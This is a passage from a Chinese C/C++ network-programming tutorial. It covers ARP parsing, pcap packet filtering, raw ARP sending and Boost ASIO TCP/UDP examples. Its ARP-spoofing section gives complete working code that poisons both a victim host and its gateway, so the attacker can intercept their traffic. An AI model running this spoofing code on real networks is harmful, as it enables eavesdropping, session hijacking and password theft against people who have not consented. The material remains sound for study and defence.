 - 发送者的IP地址：发送ARP请求或响应的设备的IP地址。
 - 目标的MAC地址：目标设备的MAC地址。
 - 目标的IP地址：目标设备的IP地址。

ARP协议工作的过程如下：

 - 发送者主机发送一个ARP请求，包含目标IP地址。
 - 网络中的所有设备都收到该ARP请求。
 - 如果有设备的IP地址与ARP请求中的目标IP地址匹配，该设备会回复ARP响应，包含自己的MAC地址。
 - 发送者主机使用响应中的MAC地址来与该设备通信。

ARP协议的工作主要是在本地网络中实现地址映射，主要包括确定哪个设备的MAC地址与特定的IP地址关联，以及应答IP地址转化成相应的MAC地址的映射请求。ARP通常用于以太网和WiFi网络中，以实现局域网内的设备通信。

```c
// 解码ARP数据包
void PrintArpHeader(const unsigned char * packetData)
{
  typedef struct arp_header
  {
    uint16_t arp_hardware_type;
    uint16_t arp_protocol_type;
    uint8_t arp_hardware_length;
    uint8_t arp_protocol_length;
    uint16_t arp_operation_code;
    uint8_t arp_source_ethernet_address[6];
    uint8_t arp_source_ip_address[4];
    uint8_t arp_destination_ethernet_address[6];
    uint8_t arp_destination_ip_address[4];
  }arp_header;

  struct arp_header *arp_protocol;

  arp_protocol = (struct arp_header *)(packetData + 14);

  u_short hardware_type = ntohs(arp_protocol->arp_hardware_type);
  u_short protocol_type = ntohs(arp_protocol->arp_protocol_type);
  int arp_hardware_length = arp_protocol->arp_hardware_length;
  int arp_protocol_length = arp_protocol->arp_protocol_length;
  u_short operation_code = ntohs(arp_protocol->arp_operation_code);

  // 判读是否为ARP请求包
  if (arp_hardware_length == 6 && arp_protocol_length == 4)
  {
    printf("原MAC地址: ");
    for (int x = 0; x < 6; x++)
      printf("%x:", arp_protocol->arp_source_ethernet_address[x]);
    printf(" --> ");

    printf("目标MAC地址: ");
    for (int x = 0; x < 6; x++)
      printf("%x:", arp_protocol->arp_destination_ethernet_address[x]);
    printf(" --> ");

    switch (operation_code)
    {
    case 1: printf("ARP 请求 \n"); break;
    case 2: printf("ARP 应答 \n"); break;
    case 3: printf("RARP 请求 \n"); break;
    case 4: printf("RARP 应答 \n"); break;
    default: break;
    }
  }
}
```

解析ARP协议同样可以实现，ARP协议同样有多个状态，一般`1-2`代表请求与应答，`3-4`代表RARP反向请求与应答，ARP协议由于触发周期短所以读者可能很少捕捉到这类数据，如下图时读者捕捉到的一条完整的ARP协议状态；



**自定义数据包过滤**

自定义数据包过滤其核心原理是使用`pcap_compile`函数，该函数用于编译一个过滤表达式并生成过滤程序。该函数可以把用户指定的过滤表达式编译成可被BPF（Berkeley Packet Filter）虚拟机处理的内部表示格式，从而可以快速过滤捕获的数据包，仅保留指定条件的数据包。

该函数的函数原型是：

```c
int pcap_compile(pcap_t *p, struct bpf_program *fp, const char *str, int optimize, bpf_u_int32 netmask);
```

函数参数解释如下：

 - p：指向打开的`pcap`文件或设备的指针。
 - fp：指向表示过滤程序的`bpf_program`结构体的指针。
 - str：指向过滤表达式字符串的指针。
 - optimize：用于指定是否优化过滤表达式的执行。设为1时表示启用优化。
 - netmask：用于指定网络掩码。

使用该函数，可以将一个用户指定的过滤表达式编译成可被`BPF`虚拟机执行的内部表示格式，生成表示过滤程序的`bpf_program`结构体。这个过滤程序可以直接用于`pcap_loop()`等函数，在捕获数据包时进行过滤，函数返回值为0表示编译成功，否则返回一个非零值。

当过滤规则被编译成功后则下一步就是设置过滤器，此时读者可调用`pcap_setfilter()`函数，该函数用于设置捕获数据包时的过滤条件，并将一个表示过滤程序的`bpf_program`结构体所代表的过滤程序应用到指定的`pcap`文件或设备上，并过滤出符合条件的数据包。只有符合过滤条件的数据包才会被传递给抓包程序进行处理。

该函数的函数原型为：
```c
int pcap_setfilter(pcap_t *p, struct bpf_program *fp);
```

函数参数解释如下：

 - p：指向打开的`pcap`文件或设备的指针。
 - fp：指向表示过滤程序的`bpf_program`结构体的指针。

使用该函数可以将一个表示过滤程序的`bpf_program`结构体所代表的过滤程序应用到指定的`pcap`文件或设备上，并过滤出符合条件的数据包。使用该函数后，`pcap_loop()`等函数在捕获数据包时仅会传递符合过滤条件的数据包，过滤出的数据包将会被传递给抓包程序进行处理，而不会将所有数据包进行处理，这样可以大大减少资源占用，并同时提高数据包捕获和分析的效率。函数返回值为0表示设置过滤程序成功，否则返回一个非零值。

数据包过滤最后一步是设置一个回调函数，通过调用`pcap_loop()`函数可实现循环等待数据包，并设置一个回调函数，当出现数据时会将数组自动发送至回调函数上，再回点函数内读者可对数据包进行任意形式的解析处理。

该函数的函数原型为：
```c
int pcap_loop(pcap_t *p, int cnt, pcap_handler callback, u_char *user);
```

函数参数解释如下：

 - p：指向打开的`pcap`文件或设备的指针。
 - cnt：用于指定捕获的数据包的数量，`-1`表示捕获数据包的数量没有限制。
 - callback：指向用户自定义的回调函数的指针，用于处理每一个捕获到的数据包。
 - user：传递给回调函数的用户指针。

使用该函数，可以在指定的`pcap`文件或设备上启动一个循环，等待并捕获符合过滤条件的数据包，并通过用户自定义的回调函数对其进行处理。回调函数会在每个数据包被捕获时调用，在回调函数中可以根据需求进行特定的数据包分析和处理操作。函数返回值为`-1`表示捕获数据包失败，否则返回一个非负整数，表示捕获的数据包数量，当理解了上述程序定义，那么实现自定义抓包过滤功能将变得很容易，如下则是完整的代码案例；

```c
#include <iostream>
#include <winsock2.h>
#include <Windows.h>
#include <string>
#include <pcap.h>

#pragma comment(lib,"ws2_32.lib")
#pragma comment(lib, "packet.lib")
#pragma comment(lib, "wpcap.lib")

using namespace std;

// 打开网卡返回的指针
pcap_t* m_adhandle;

// 解码TCP数据包，需要先加14跳过数据链路层, 然后再加20跳过IP层。
void PrintTCPHeader(const unsigned char * packetData)
{
  typedef struct tcp_header
  {
    short SourPort;                 // 源端口号16bit
    short DestPort;                 // 目的端口号16bit
    unsigned int SequNum;           // 序列号32bit
    unsigned int AcknowledgeNum;    // 确认号32bit
    unsigned char reserved : 4, offset : 4; // 预留偏移

    unsigned char  flags;               // 标志 

    short WindowSize;               // 窗口大小16bit
    short CheckSum;                 // 检验和16bit
    short surgentPointer;           // 紧急数据偏移量16bit
  }tcp_header;

  struct tcp_header *tcp_protocol;
  // +14 跳过数据链路层 +20 跳过IP层
  tcp_protocol = (struct tcp_header *)(packetData + 14 + 20);

  u_short sport = ntohs(tcp_protocol->SourPort);
  u_short dport = ntohs(tcp_protocol->DestPort);
  int window = tcp_protocol->WindowSize;
  int flags = tcp_protocol->flags;

  printf("源端口: %6d --> 目标端口: %6d --> 窗口大小: %7d --> 标志: (%d)",
    sport, dport, window, flags);

  if (flags & 0x08) printf("PSH 数据传输\n");
  else if (flags & 0x10) printf("ACK 响应\n");
  else if (flags & 0x02) printf("SYN 建立连接\n");
  else if (flags & 0x20) printf("URG \n");
  else if (flags & 0x01) printf("FIN 关闭连接\n");
  else if (flags & 0x04) printf("RST 连接重置\n");
  else printf("None 未知\n");
}

// 解析过滤数据包（回调函数）
void packet_handler(u_char* param, const struct pcap_pkthdr* header, const u_char* pkt_data)
{
  // std::cout << pkt_data << std::endl;
  PrintTCPHeader(pkt_data);
}

// 获取网卡并设置过滤器
BOOL GetAndOpenAdapter(std::string local_address, std::string filter)
{
  pcap_if_t* alldevs = NULL, *d = NULL;
  char errbuf[256] = { 0 };
  bpf_program fcode;
  u_int netmask;

  // 获取网卡设备指针
  if (-1 == pcap_findalldevs_ex(PCAP_SRC_IF_STRING, NULL, &alldevs, errbuf))
  {
    return FALSE;
  }

  // 选取适合网卡
  int flag = 0;
  for (d = alldevs; d; d = d->next)
  {
    pcap_addr_t* p = d->addresses;
    while (p)
    {
      if (local_address == inet_ntoa(((sockaddr_in*)p->addr)->sin_addr))
      {
        flag = 1;
        break;
      }
      p = p->next;
    }
    if (1 == flag)
      break;
  }
  if (0 == flag)
  {
    // 请检查本机IP地址是否正确
    return FALSE;
  }

  // 获取子网掩码
  netmask = ((sockaddr_in*)d->addresses->netmask)->sin_addr.S_un.S_addr;

  // 打开网卡
  m_adhandle = pcap_open(d->name, 65536, PCAP_OPENFLAG_PROMISCUOUS, 1000, NULL, errbuf);
  if (NULL == m_adhandle)
  {
    pcap_freealldevs(alldevs);
    return FALSE;
  }

  // 检查以太网
  if (DLT_EN10MB != pcap_datalink(m_adhandle))
  {
    pcap_freealldevs(alldevs);
    return FALSE;
  }

  // 编译过滤器
  char filter_ptr[4096] = { 0 };
  sprintf(filter_ptr, filter.c_str());

  if (0 > pcap_compile(m_adhandle, &fcode, filter_ptr, 1, netmask))
  {
    // 编译过滤器出错
    pcap_freealldevs(alldevs);
    return FALSE;
  }

  // 设置过滤器
  if (0 > pcap_setfilter(m_adhandle, &fcode))
  {
    // 设置过滤器出错
    pcap_freealldevs(alldevs);
    return FALSE;
  }

  // 释放网卡设备列表
  pcap_freealldevs(alldevs);

  // 开始捕捉数据包
  pcap_loop(m_adhandle, 0, packet_handler, NULL);
  return TRUE;
}

int main(int argc, char* argv[])
{
  BOOL flag = GetAndOpenAdapter("192.168.9.125", "dst host www.lyshark.com");

  system("pause");
  return 0;
}
```

读者可自行运行上述代码片段，当程序运行后会自动侦听`192.168.9.125`地址，并使用`dst host www.lyshark.com`过滤规则，该规则的含义是，如果有数据包从本网卡流出，则自动执行过滤输出`lyshark.com`网址的数据包，如下图所示；



### 18.3 构建实现ARP欺骗

ARP欺骗（ARP Spoofing）是一种网络攻击手段，其目的是通过欺骗目标主机来实现网络攻击。ARP协议是一种用于获取MAC地址的协议，因此欺骗者可以使用ARP欺骗来迫使其目标主机将网络流量发送到攻击者控制的设备上，从而实现网络攻击。

ARP欺骗攻击通常包括以下步骤：

 - 攻击者在本地网络上广播ARP请求，请求目标主机的MAC地址。
 - 目标主机发送应答报文，包括其MAC地址。
 - 攻击者对目标主机和其它主机发送伪造的ARP应答报文，指定攻击者的MAC地址为目标主机的MAC地址。
 - 接收到欺骗者发来的ARP应答的主机会把欺骗者的MAC地址缓存，在下次发送数据包时，会把网络数据发送给欺骗者控制的设备，从而攻击者就可以截获、修改或者干扰数据传输。

ARP欺骗攻击通常可以用于实现中间人攻击、会话劫持、密码盗窃等网络攻击，因此网络管理人员和用户都应当了解如何防范和检测ARP欺骗攻击。常见的防范手段包括静态ARP表、ARP监控工具、虚拟专用网络（VPN）等。

**构建并发送ARP数据包**

通过使用`Npcap`实现发送一个`ARP`广播数据包，这里需要先在本地构建数据包的结构，然后再将其格式化为字符串数据包，并发送出去，ARP数据包总长度为`42`字节，其中需要包含`14`字节`EthernetHeader`以太网包头，在其下是长度为`28`字节的`ArpHeader`数据包头，在数据包发送时需要将两者组合起来，代码中通过`ArpPacket`包将两个包头串联在一起，如下是需要发送`ARP`数据包的具体构造结构。

```c
#include <winsock2.h>
#include <Windows.h>
#include <pcap.h>

#pragma comment(lib, "packet.lib")
#pragma comment(lib, "wpcap.lib")
#pragma comment(lib,"WS2_32.lib")

// 以太网帧类型 对于ARP请求或应答该字段的值为x0806
#define ETH_ARP 0x0806

// 硬件类型字段值为表示以太网地址
#define ARP_HARDWARE 1

// 协议类型字段表示要映射的协议地址类型值为x0800表示IP地址
#define ETH_IP 0x0800

// ARP请求与ARP应答
#define ARP_REQUEST 1
#define ARP_RESPONSE 2

// 14字节以太网首部
struct EthernetHeader
{
  u_char DestMAC[6];    // 目的MAC地址6字节
  u_char SourMAC[6];    // 源MAC地址 6字节
  u_short EthType;      // 上一层协议类型，如0x0800代表上一层是IP协议，0x0806为arp2字节
};

// 28字节ARP帧结构
struct ArpHeader
{
  unsigned short hdType;    // 硬件类型
  unsigned short proType;   // 协议类型
  unsigned char hdSize;     // 硬件地址长度
  unsigned char proSize;    // 协议地址长度
  unsigned short op;        // 操作类型，ARP请求（1），ARP应答（2），RARP请求（3），RARP应答（4）。
  u_char smac[6];           // 源MAC地址
  u_char sip[4];            // 源IP地址
  u_char dmac[6];           // 目的MAC地址
  u_char dip[4];            // 目的IP地址
};

// 42字节的ARP数据包总长度
struct ArpPacket
{
  EthernetHeader eh;
  ArpHeader ah;
};
```

实现数据包发送的第二步是绑定网卡，针对绑定网卡此处封装实现了`SelectNetworkHandle`函数，该函数通过传入一个网卡序号下标，当收到网卡下标后寻找该小标所对应的网卡句柄，找到后返回一个`pcap_t`结构的网卡句柄，如下所示；

```c
// 获取到指定网卡的句柄
pcap_t * SelectNetworkHandle(int nChoose)
{
  // 打开网络适配器，捕捉实例,是pcap_open返回的对象
  pcap_t *pcap_handle;
  pcap_if_t *alldevs;

  // 错误缓冲区,大小为256
  char errbuf[PCAP_ERRBUF_SIZE];

  // 获取到所有设备列表
  if (pcap_findalldevs_ex(PCAP_SRC_IF_STRING, NULL, &alldevs, errbuf) == -1)
  {
    exit(0);
  }

  // 找到指定的网卡设备
  for (int x = 0; x < nChoose - 1; ++x)
  {
    alldevs = alldevs->next;
  }

  // 绑定网卡并设置混杂模式
  if ((pcap_handle = pcap_open(alldevs->name,      // 设备名
    65536,                                       // 每个包长度
    PCAP_OPENFLAG_PROMISCUOUS,                   // 混杂模式
    1000,                                        // 读取超时时间
    NULL,                                        // 远程机器验证
    errbuf                                       // 错误缓冲池
    )) == NULL)
  {
    pcap_freealldevs(alldevs);
    exit(0);
  }
  return pcap_handle;
}
```

接着就是要构造并发送`ARP`数据包了，对于发包而言我们需要依赖于`pcap_sendpacket`函数，该函数是`libpcap`库的一部分，专门用于发送各类数据包结构，该函数原型如下：

```c
int pcap_sendpacket(pcap_t *p, const u_char *buf, int size);
```

函数用于以原始形式发送数据包，其中参数含义如下：

 - p：指向设备的 `pcap_t` 指针。
 - buf：指向待发送数据包的缓冲区。
 - size：待发送数据包的大小，以字节为单位。

该函数返回值为发送数据包的状态，如果函数返回 -1，则表示出现错误，否则返回发送的字节数。

有了这个函数那么我们只需要构建属于自己的数据包即可，如下则是主函数的实现流程，在这代码中我们可以看到用于组合`ARP`数据包的结构体 `ArpPacket` 包括了以太网包头 `EthernetHeader` 和`ARP`包头 `ArpHeader`。其中，以太网包头中包括了源`MAC`地址、目的`MAC`地址和以太网类型，而`ARP`包头中则包括了硬件类型、协议类型、硬件地址长度、协议地址长度、操作类型（`ARP`请求或`ARP`响应）以及源`MAC`地址、源`IP`地址、目的`MAC`地址和目的`IP`地址等信息。

在数据包的构造完成后，程序进入了一个循环，每隔1秒钟发送一次数据包，总共发送100次。发送的数据包以 `sendbuf` 变量的形式进行传输，大小为`42`字节（即`ARP`包的结构体大小）。在每次成功发送数据包后，程序会在控制台输出一条带有发送次数的消息。

```c
int main(int argc, char *argv[])
{
  // 打开网络适配器
  pcap_t *handle;

  // 定义以太网包头
  EthernetHeader eh;

  // 定义ARP包头
  ArpHeader ah;

  // 组合完整的ARP数据包
  ArpPacket arp;

  // 定义发包缓冲区 ARP包结构大小42字节
  unsigned char sendbuf[42];

  // 定义原MAC地址和原IP地址,此处是十六进制
  unsigned char src_mac[6] = { 0xaa, 0xaa, 0xaa, 0xaa, 0xff, 0xff };
  unsigned char src_ip[4] = { 0x01, 0x02, 0x03, 0x04 };

  // 根据下标选中特定网卡
  handle = SelectNetworkHandle(8);

  // 开始填充ARP包
  memset(arp.eh.DestMAC, 0xff, 6);      // 以太网首部目的MAC地址,全为广播地址
  memcpy(arp.eh.SourMAC, src_mac, 6);   // 以太网首部源MAC地址
  memcpy(arp.ah.smac, src_mac, 6);      // ARP字段源MAC地址
  memset(arp.ah.dmac, 0xff, 6);         // ARP字段目的MAC地址
  memcpy(arp.ah.sip, src_ip, 4);        // ARP字段源IP地址
  memset(arp.ah.dip, 0x05, 4);          // ARP字段目的IP地址

  // 赋值MAC地址
  arp.eh.EthType = htons(ETH_ARP);      // 将无符号短整数转成网络字节序
  arp.ah.hdType = htons(ARP_HARDWARE);
  arp.ah.proType = htons(ETH_IP);
  arp.ah.hdSize = 6;
  arp.ah.proSize = 4;
  arp.ah.op = htons(ARP_REQUEST);

  // 构造一个ARP请求
  memset(sendbuf, 0, sizeof(sendbuf));            // ARP清零
  memcpy(sendbuf, &arp, sizeof(arp));             // 将结构体变为字符串

  // 循环发包
  for (size_t i = 0; i < 100; i++)
  {
    // 发送数据包
    if (pcap_sendpacket(handle, sendbuf, 42) == 0)
    {
      printf("[Send] 发送 %d 次 \n", i);
    }
    Sleep(1000);
  }

  system("pause");
  return 0;
}
```

读者可自行运行上述代码片段，当运行后则会发送`100`次`ARK`数据包，通过使用`wireshark`即可抓取到这个由我们自己构造的数据包，输出效果图如下图所示；



**实现ARP网络欺骗**

ARP欺骗通常是双向欺骗。攻击者首先会向受害者发送一个虚假的`ARP`响应报文，欺骗其将攻击者的`MAC`地址与网关的`IP`地址相对应。这使得受害者将其所有的网络流量发送到了攻击者的设备上，浏览网页、输入密码等所有的网络行为都会被攻击者截获，从而达到窃取网络数据的目的。

同时，攻击者还需要给网关发送一个虚假的ARP响应报文，欺骗其将攻击者的MAC地址与受害者IP地址相对应，这样攻击者就可以中继网关和受害者之间的流量，并监视其所有的网络流量。这种攻击方式被称为双向欺骗，因为攻击者不仅欺骗了受害者，还欺骗了网关，形成了一种双向的欺骗关系。

为了实现欺骗此处我们同样先来定义一些结构体变量，这些结构体变量的解释，读者也可以自行打开抓包软件并捕捉一个数据包进行分析，公开资料在网络平台也可很容易得到。

```c
// arp应答/请求(28字节)
#define ARP_HARDWARE 0x0001  // arp_hrd：以太网
#define ARP_REQUEST 0x0001   // arp_op： 请求 request 
#define ARP_REPLY 0x0002     // arp_op： 应答 reply 

// 使结构体按1字节方式对齐
#pragma pack(push, 1)

// 以太网头部(14字节)
#define EPT_IP 0x0800       // eh_type: IP 
#define EPT_ARP 0x0806      // eh_type: ARP 
#define EPT_RARP 0x8035     // eh_type: RARP

typedef struct
{
  UCHAR eh_dst[6];        // 接收方MAC地址 
  UCHAR eh_src[6];        // 发送方MAC地址 
  USHORT eh_type;         // 上层协议类型 
}EH_HEADR, *P_EH_HEADR;

typedef struct
{
  USHORT arp_hrd;          // 硬件类型 
  USHORT arp_pro;          // 协议类型 
  UCHAR  arp_hln;          // 硬件（MAC）地址长度 
  UCHAR  arp_pln;          // 协议（IP ）地址长度 
  USHORT arp_op;           // 包类型：请求、应答
  UCHAR  arp_sha[6];       // 发送发硬件地址 （应答时，此处可欺骗）
  ULONG  arp_spa;          // 发送方协议地址 （应答时，此处可欺骗）
  UCHAR  arp_tha[6];       // 接收方硬件地址 （请求时，此处无用）
  ULONG  arp_tpa;          // 接收方协议地址 
}ARP_HEADR, *P_ARP_HEADR;

// ARP协议栈
typedef struct
{
  EH_HEADR ehhdr;
  ARP_HEADR arphdr;
} ARP_PACKET, *P_ARP_PACKET;
```

封装一个`ChangeMacAddr`函数，该函数用于把输入的12字节的MAC字符串，转变为6字节的16进制MAC地址`UCHAR`类型，以便在网络编程中使用。

输入`MAC`地址字符串`XX-XX-XX-XX-XX-XX`形式，其中`XX`表示两个`16`进制数的组合，表示一个字节，而`-`作为分隔符。程序通过循环遍历每个XX，分别解析出高低两位，然后将其转换为`UCHAR`类型的字节值赋给新的数组a。该函数的返回值为void，不返回任何数据。

```c
void ChangeMacAddr(char *p, UCHAR a[])
{
  char* p1 = NULL;
  int i = 0;
  int high, low;
  char temp[1];
  for (i = 0; i < 6; i++)
  {
    p1 = p + 1;

    // 计算低位的16进进制
    switch (*p1)
    {
    case 'A': low = 10;        break;
    case 'B': low = 11;        break;
    case 'C': low = 12;        break;
    case 'D': low = 13;        break;
    case 'E': low = 14;        break;
    case 'F': low = 15;        break;
    default: temp[0] = *p1;

      // 如果为数字就直接转变成对应的数值
      low = atoi(temp);
    }

    // 计算高位的16进制
    switch (*p)
    {
    case 'A': high = 10;       break;
    case 'B': high = 11;       break;
    case 'C': high = 12;       break;
    case 'D': high = 13;       break;
    case 'E': high = 14;       break;
    case 'F': high = 15;       break;
    default: temp[0] = *p;

      // 如果为数字就直接转变成对应的数值
      high = atoi(temp);
    }

    // 指针指向下一个X(高)X(低)字符串
    p += 2;

    // 求和得16进制值
    a[i] = high * 16 + low;
  }
}
```

封装两个函数，其中`makeArpPacket`用于传入源地址与目标地址构建出一个特有的`ARP`数据包，并返回数据给`ARPPacket`指针，`sendArpPacket`用于发送`ARP`数据包，该函数接收一个`ARPPacket`数据包即可。

```c
BOOL makeArpPacket(ARP_PACKET &ARPPacket, char * srcMac, char * srcIP, char * dstMac, char * dstIP)
{
  UCHAR MacAddr[6] = { 0 };

  // 以太网头
  ChangeMacAddr(dstMac, ARPPacket.ehhdr.eh_dst);   // 目的MAC地址
  ChangeMacAddr(srcMac, ARPPacket.ehhdr.eh_src);   // 源MAC地址
  ARPPacket.ehhdr.eh_type = htons(EPT_ARP);        // 数据类型ARP请求或应答

  // ARP头                                     
  ARPPacket.arphdr.arp_hrd = htons(ARP_HARDWARE);  // 硬件地址为0x0001表示以太网地址
  ARPPacket.arphdr.arp_pro = htons(EPT_IP);        // 协议类型字段为0x0800表示IP地址
  ARPPacket.arphdr.arp_hln = 6;                    // 硬件地址长度和协议地址长度分别指出硬件地址和协议地址的长度
  ARPPacket.arphdr.arp_pln = 4;                    // 以字节为单位对于以太网上IP地址的ARP请求或应答来说它们的值分别为6和4
  ARPPacket.arphdr.arp_op = htons(ARP_REPLY);      // ARP请求值为1,ARP应答值为2,RARP请求值为3,RARP应答值为4
  ChangeMacAddr(srcMac, ARPPacket.arphdr.arp_sha); // 发送方源MAC地址（欺骗的MAC地址）
  ARPPacket.arphdr.arp_spa = inet_addr(srcIP);     // 发送方源IP地址 （欺骗的MAC地址）
  ChangeMacAddr(dstMac, ARPPacket.arphdr.arp_tha); // 目标的MAC地址 
  ARPPacket.arphdr.arp_tpa = inet_addr(dstIP);     // 目标的IP地址

  return TRUE;
}

// 发送ARP数据包
BOOL sendArpPacket(pcap_t * fp, ARP_PACKET &ARPPacket)
{
  if (pcap_sendpacket(fp, (const u_char *)&ARPPacket, sizeof(ARPPacket)) != 0)
  {
    return TRUE;
  }
  return FALSE;
}
```

最后一步则是发送数据包以实现欺骗的效果，首先通过`SelectNetworkHandle`选中需要欺骗的网卡，接着我们通过`makeArpPacket`函数分别构建两个数据包，其中一个用于构建欺骗受害者，另一个用于构建欺骗网关，最后通过循环的方式`sendArpPacket`发送两个数据包分别到路由器与客户端之间，则可实现对特定主机的欺骗效果。

```c
int main(int argc, char *argv[])
{
  pcap_t *handle;
  EH_HEADR eh;
  ARP_HEADR ah;
    
  handle = SelectNetworkHandle(8);

  // 填充数据包
  ARP_PACKET ARPPacket_dst = { 0 };     // 欺骗目标
  ARP_PACKET ARPPacket_gate = { 0 };    // 欺骗网关

  // 欺骗受害者我是网关 (原MAC地址/原IP地址 --> 目标MAC地址/目标IP地址)
  makeArpPacket(ARPPacket_dst, "000000000000", "192.168.1.1", "c89cdcad3a39", "192.168.1.10");

  // 欺骗网关我是受害者 (原MAC地址/原IP地址 --> 目标MAC地址/目标IP地址)
  makeArpPacket(ARPPacket_gate, "c89cdcad3a39", "192.168.1.10", "000000000000", "192.168.1.1");

  while (true)
  {
    // 发送数据包
    sendArpPacket(handle, ARPPacket_dst);
    sendArpPacket(handle, ARPPacket_gate);
    printf("[发送欺骗数据包] \n");
    Sleep(3000);
  }

  pcap_close(handle);

  system("pause");
  return 0;
}
```

读者可自行运行上述这段代码，并打开抓包工具查看效果，此时针对于客户端以及路由器都进行了双向数据包欺骗，当客户端被成功欺骗后，则我们的主机中将会出现被害主机的完整数据包，此时就可以对数据包进行各类分析，以获取有用的线索。



## 第十九篇：基于ASIO网络编程技术

Boost ASIO库是一个基于C++语言的开源网络编程库，该库提供了成熟、高效、跨平台的网络API接口，并同时支持同步与异步两种模式，ASIO库提供了多重I/O对象、异步定时器、可执行队列、信号操作和协程等支持，使得开发者可以轻松地编写可扩展的高性能网络应用程序，同时保持代码简洁、易于维护。

在学习`ASIO`库之前，我们先来实现一个简单的地址解析功能，Boost库中提供了`ip::tcp::resolver`对象，该对象可用于解析给定主机名和端口号的`IP`地址，学会使用这个对象即可实现对特定主机域名地址的解析功能，如下封装实现了`GetDNSAddress`该函数传入一个域名，并输出该域名所对应的`IP`地址列表，并返回给`std::vector`容器内，其实现原理如下所示；

```c
#include <iostream>
#include <vector>
#include <boost/asio.hpp>

using namespace std;
using namespace boost;
using namespace boost::asio;

// 传入域名解析IP地址
std::vector<std::string> GetDNSAddress(std::string hostname)
{
  std::vector<std::string> address_list;
  boost::asio::io_service ioservice;
  boost::asio::io_service my_io_service;
  boost::asio::ip::tcp::resolver resolver(my_io_service);
  boost::asio::ip::tcp::resolver::query query(hostname, "https");
  boost::asio::ip::tcp::resolver::iterator iter = resolver.resolve(query);
  boost::asio::ip::tcp::resolver::iterator end;

  while (iter != end)
  {
    boost::asio::ip::tcp::endpoint endpoint = *iter++;
    address_list.push_back(endpoint.address().to_string());
  }
  return address_list;
}
```

这段代码的调用很容易，只需要传入特定域名即可，如下所示代码中，我们获取`www.baidu.com`域名下所有的IP地址列表，并依次循环输出`ref_address_list`中的所有列表信息。

```c
int main(int argc, char *argv[])
{
  // 从字符串产生IP
  ip::address addr;
  addr = addr.from_string("192.168.1.1");

  if (addr.is_v4())
  {
    std::string addr_string = addr.to_string();
    std::cout << "IP地址: " << addr_string << std::endl;
  }

  // 根据域名获取所有DNS地址
  std::vector < std::string > ref_address_list;
  ref_address_list = GetDNSAddress("www.baidu.com");
  for (int x = 0; x < ref_address_list.size(); x++)
  {
    std::cout << ref_address_list[x] << std::endl;
  }

  std::system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码片段，当运行后会看到特定域名下所包含的所有IP信息，如下图所示；



### 19.1 同步TCP通信

在同步模式下，程序发起`I/O`操作时，调用相应的同步`I/O`函数将操作添加到`io_service`中，该请求被添加到`io_service`的请求队列中等待处理。然后，`io_service`就会不断地从队列中取出请求，并将请求传递给操作系统进行处理，直到该请求被处理完成。程序在此期间会一直处于阻塞等待的状态，直到操作完成或者因为某种原因导致操作失败。

当`I/O`操作在操作系统完成后，操作系统会通知`io_service`，`io_service`接收到通知后会再次进入循环，将操作结果发送回程序进行处理。程序会在此等待操作结果，并在`io_service`返回结果时继续执行其余代码。

同步网络通信的实现原理与原生Socket套接字通信原理保持一致，只是在`ASIO`模型中，需要定义一个`io_service`对象，在服务端环境下，我们通过`ip::tcp::acceptor`来指定服务端地址与端口信息，使用`ip::tcp::socket`创建一个套接字，通过`acceptor.accept(socket)`则可用于同步等待一个套接字的链接，当有新套接字连入后，我们可以使用`socket.write_some`函数向客户端发送一段消息。

```C
#include <iostream>
#include <boost/asio.hpp>

using namespace boost::asio;

int main(int argc, char* argv[])
{
  io_service io;
  ip::tcp::acceptor acceptor(io, ip::tcp::endpoint(ip::tcp::v4(), 6666));

  while (1)
  {
    // 创建 socket 对象
    ip::tcp::socket socket(io);
    
    // 等待客户端连接
    acceptor.accept(socket);
    
    // 显示客户端IP
    std::cout << "本机地址: " << socket.local_endpoint().address() << std::endl;
    std::cout << "客户端地址: " << socket.remote_endpoint().address() << std::endl;
    
    // 向客户端发送 hello lyshark
    boost::system::error_code error;
    socket.write_some(buffer("hello lyshark"), error);

    // 如果出错,输出错误提示
    if (error)
    {
      std::cout << boost::system::system_error(error).what() << std::endl;
      break;
    }
  }
  system("pause");
  return 0;
}
```
对于客户端而言我们可以使用`tcp::endpoint`创建一个链接端点，当初始化结构后就可以使用`socket.connect`函数连接到这个端点上，当链接被建立后，则客户端就可以使用`socket.read_some`函数接收服务端传递过来的消息，此处读者需要注意接受的消息需要使用`boost::array`存储，当接收到消息后就可以使用`buffer.data()`方法打印出该缓冲区内的具体内容。

```C
#include <iostream>
#include <boost/array.hpp>
#include <boost/asio.hpp>

using namespace std;
using boost::asio::ip::tcp;

int main(int argc, char* argv[])
{
  try
  {
    // 定义Socket对象
    boost::asio::io_service io;
    tcp::socket socket(io);

    // 尝试连接服务器
    tcp::endpoint end_point(boost::asio::ip::address::from_string("127.0.0.1"), 6666);
    socket.connect(end_point);

    while (1)
    {
      boost::array<char, 1024> buffer = { 0 };
      boost::system::error_code error;

      // 接受数据并存入buffer
      size_t len = socket.read_some(boost::asio::buffer(buffer), error);

      // 判断是否出错
      if (error == boost::asio::error::eof)
        break;
      else if (error)
        throw boost::system::system_error(error);

      std::cout << "接收到数据: " << buffer.data() << std::endl;
    }
  }
  catch (std::exception& e)
  {
    cout << e.what() << endl;
  }
  system("pause");
  return 0;
}
```

读者可自行编译并运行上述服务端与客户端程序，当运行后即可看到如下图所示的输出效果；



### 19.2 同步UDP通信

TCP和UDP是两种常见的Internet协议，TCP是一种可靠的、面向连接的协议，UDP则是不可靠的、无连接的协议。 TCP适合传输数据量大、对数据传输准确性要求高的应用，而UDP适合传输数据量小、传输速度快、对传输可靠性要求低的应用。

ASIO库在实现`UDP`传输时其大体思路与`TCP`保持一致，两者唯一的区别是在定义套接字时应使用`ip::udp::`命名空间，其次在传输数据方面服务端应该采用`receive_from`函数接收参数，如下是一段简单的`UDP`传输服务端实现。

```C
#include <iostream>
#include <boost/asio.hpp>

using namespace boost::asio;
using namespace boost::system;

int main(int argc, char* argv[])
{
  io_service io;
  ip::udp::socket sock(io, ip::udp::endpoint(ip::udp::v4(), 6666));

  while (1)
  {
    char buf[1];
    ip::udp::endpoint ep;

    error_code ec;

    // 接收参数
    sock.receive_from(buffer(buf), ep, 0, ec);

    if (ec && ec != error::message_size)
    {
      throw system_error(ec);
    }

    std::cout << "发送到: " << ep.address() << std::endl;
    sock.send_to(buffer("hello lyshark"), ep);
  }

  system("pause");
  return 0;
}
```
接着是客户端的实现，对于`UDP`客户端通常采用`sock.open()`函数打开套接字，在打开后可调用`sock.send_to`向服务端发送数据，同时使用`sock.receive_from`接收数据包，如下是客户端代码实现。
```C
#include <iostream>
#include <vector>
#include <boost/asio.hpp>

using namespace boost::asio;
using namespace boost::system;

